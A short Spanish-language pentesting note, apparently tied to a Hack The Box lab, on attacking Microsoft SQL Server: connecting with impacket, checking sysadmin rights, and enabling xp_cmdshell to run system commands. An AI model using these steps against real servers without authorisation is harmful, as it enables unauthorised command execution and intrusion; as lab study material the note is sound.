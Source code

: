 # Microsoft SQL Server

Es un servicio de base de datos que suele correr en el puerto 1433 (TCP). Este servicio se explota en [[Archetype HTB]].

Para más info consultar:

- [HACKTRICKS](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [PENTEST MONKEY](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Conexión

Para la conexión desde linux, utilizaremos un script de [[impacket]], llamado `mssqlclient.py`.

## Comandos útiles

```sql
# Get version
select @@version;

# Get user
select user_name();

#Check admin privileges
SELECT is_srvrolemember('sysadmin');
```

## Ejecución de comandos

Para ejecutar comandos a nivel de sistema haremos uso de `xp_cmdshell`, pero primero debemos asegurar que tenemos un usuario privilegiado y que la opción se encuentra habilitada. Lo primero lo hemos explicado en puntos anteriores, pero para comprobar si tenemos *xp_cmdshell* activado ejecutaremos:

```sql
EXEC xp_cmdshell 'net user';
```

En caso de tenerlo deshabilitado, lo habilitaremos de la siguiente manera:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Una vez configurado podemos ejecutar comandos con:

```sql
xp_cmdshell "comando";
```